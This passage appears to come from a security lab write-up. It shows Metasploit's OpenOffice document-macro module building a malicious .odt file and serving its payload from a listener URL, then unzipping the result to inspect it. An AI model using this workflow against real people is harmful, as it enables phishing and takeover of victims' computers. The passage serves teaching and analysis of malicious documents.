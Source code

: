 #### Generate Document

I'll run this to generate the document and start the listener. I'll have
to chance the `SRVPORT` as I already have burp listening on 8080, and it
won't create the document if it can't listen.



    msf5 exploit(multi/misc/openoffice_document_macro) > [*] Using URL: http://0.0.0.0:8088/Pc2F6ndgt1H5jGs
    [*] Local IP: http://10.1.1.41:8088/Pc2F6ndgt1H5jGs
    [*] Server started.
    [*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2                                                                                                           
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2/accelerator
    [*] Packaging file: Configurations2/accelerator/current.xml
    [*] Packaging file: manifest.rdf
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic
    [*] Packaging file: Basic/script-lc.xml
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic/Standard
    [*] Packaging file: Basic/Standard/Module1.xml
    [*] Packaging file: Basic/Standard/script-lb.xml
    [*] Packaging file: meta.xml
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/META-INF
    [*] Packaging file: META-INF/manifest.xml
    [*] Packaging file: content.xml
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Thumbnails
    [*] Packaging file: Thumbnails/thumbnail.png
    [*] Packaging file: mimetype
    [*] Packaging file: styles.xml
    [*] Packaging file: settings.xml
    [+] msf.odt stored at /root/.msf4/local/msf.odt



I can take my document and run it somewhere to try to get a connection,
but for the purposes of this post, I can exit MSF now.

#### Document

Now I can open up the document and take a look.



    root@kali# unzip msf.zip 
    Archive:  msf.zip
     extracting: Configurations2/accelerator/current.xml  
      inflating: manifest.rdf            
      inflating: Basic/script-lc.xml     
      inflating: Basic/Standard/Module1.xml  
      inflating: Basic/Standard/script-lb.xml  
      inflating: meta.xml                
      inflating: META-INF/manifest.xml   
      inflating: content.xml             
      inflating: Thumbnails/thumbnail.png  
     extracting: mimetype                
      inflating: styles.xml              
      inflating: settings.xml            
    root@kali# ls
    Basic  Configurations2  content.xml  manifest.rdf  META-INF  meta.xml  mimetype  settings.xml  styles.xml  Thumbnails

